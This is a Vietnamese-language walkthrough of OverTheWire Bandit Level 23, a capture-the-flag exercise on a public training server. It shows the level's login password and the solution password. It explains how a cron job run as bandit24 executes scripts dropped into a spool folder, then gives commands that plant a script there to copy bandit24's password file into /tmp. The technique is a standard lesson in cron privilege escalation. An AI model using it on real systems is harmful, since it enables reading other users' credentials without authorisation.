

# 🎯 Bandit Level 23

## 📌 END goal: Tìm key bị giấu
**Describe**: A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.


```
host: bandit.labs.overthewire.org
port: 2220
username: bandit23
password: 0Zf11ioIjMVN551jX3CmStKLYqjk54Ga

```
---

## ⚙️ Cách thực hiện:
**Payload:**
```bash
ssh -p 2220 bandit23@bandit.labs.overthewire.org
ls /etc/cron.d
cat /etc/cron.d/cronjob_bandit24
cat /usr/bin/cronjob_bandit24.sh
mkdir /tmp/script
cd /tmp/script
nano lv23.sh
#Nội dung script:
#  #!bin/bash
#  cat /etc/bandit_pass/bandit24 > /tmp/script/password.txt 
chmod +x lv23.sh
ls -la /var/spool/
cp lv23.sh /var/spool/bandit24/foo/
cat passsword.txt
```

-Tương tự với Lv trước, ta có 1 đoạn script như sau:
```bash
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

-Phân tích 1 chút về script này, ```whoami``` trả về ```bandit24``` vì script do cron của user ```bandit24``` chạy giá trị ```myname``` là ```bandit24``` 
và sẽ thực thi các file được sở hữu bởi ```bandit23``` 

==>Script này chỉ cho phép ```bandit23``` inject shell script vào ```/var/spool/bandit24/foo``` để được thực thi bởi ```bandit24``` trong 1 phút



-Bước 1: Tạo shell script:
```bash
mkdir /tmp/script
cd /tmp/script
nano lv23.sh
```

Với nội dung:   
```bash
#!bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/script/password.txt 
```

-Bước 2: Cấp quyền thực thi:
```bash
chmod +x lv23.sh
```

-Bước 3: copy script vào folder cron:
```bash
cp lv23.sh /var/spool/bandit24/foo/
```

-Bước 4: đọc mật khẩu từ file password.txt để lấy key

### Key: gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8